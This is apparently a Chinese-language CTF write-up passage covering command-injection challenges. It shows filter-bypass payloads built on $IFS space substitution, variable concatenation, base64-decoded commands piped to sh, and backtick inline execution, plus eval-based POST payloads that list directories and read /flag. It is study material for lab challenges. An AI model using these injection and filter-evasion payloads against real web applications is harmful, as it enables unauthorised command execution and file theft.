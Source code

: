 payload1：变量拼接：

 在flag贪婪匹配里面我们不将flag连着写，就不会匹配到，同时可以看到有$a变量，尝试覆盖它

```
?ip=127.0.0.1;b=lag;a=f;cat$IFS$a$b.php
?ip=127.0.0.1;b=g;cat$IFS$9fla$b.php
```



payload2：过滤bash，就用sh，sh的大部分脚本都可以在bash下运行。

```
bash：
echo "Y2F0IGZsYWcucGhw"| base64 -d | bash  //发现被过滤
sh：
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh  //成功
Y2F0IGZsYWcucGhw：cat flag.php
```



#### “奇淫技巧”：内联执行

内联，就是将反引号内命令的输出作为输入执行。

秒题大概就是这种做法吧......

==**payload3：内联绕过，无需列出中间结果，可以一次输出多个文件内容**==

```
?ip=;cat$IFS`ls`
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220130123618657.png" alt="image-20220130123618657" style="zoom:67%;" />

## [极客大挑战 2019]Knife

### 考点：eval代码执行

eval($_POST["Syc"]);

**运用eval()要注意几点:**

- eval函数的==参数的字符串末尾一定要有分号==
- **eval()** 返回 **`NULL`**，不回显，得有echo才回显

payload

```
Syc=echo  `ls`;   //看源码，发现只有index.php
Syc=echo  `ls /`;  //看根目录，发现flag文件
Syc=echo  `cat /flag`; //得到flag
```



## [极客大挑战 2019]Http
